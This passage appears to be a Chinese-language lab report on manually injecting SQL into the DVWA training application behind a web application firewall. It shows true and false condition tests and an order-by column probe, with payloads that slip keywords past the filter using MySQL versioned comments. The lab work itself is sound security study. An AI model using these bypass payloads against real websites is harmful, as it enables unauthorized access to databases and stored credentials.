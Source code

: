 ```shell
```   
![Alt text](image-34.png)   
无防护的情况下，扫描出了四种类型注入漏洞。
## 2. 在有 WAF 的情况下，手工注入出 DVWA 数据库中的 user 和 password，提供注入过程说明文档。   
### 2.1 判断是否存在注入漏洞。
```shell
 1' and 1=1 #
```   
请求被WAF拦截，初步推测是 and 关键字，尝试修改语句。   
```shell
 1'/**//*!11445and*/ 1=1 --
```   
成功查询出结果。 修改为 `1=2` 判断是否执行。   
```shell
 1'/**//*!11445and*/ 1=2 --
``` 
![Alt text](image-35.png)   
查询无结果，判断此处存在注入漏洞。
### 2.2 判断查询字段数量与显示位。   
```shell
 1'/**//*!11445order by*/ 2 --
```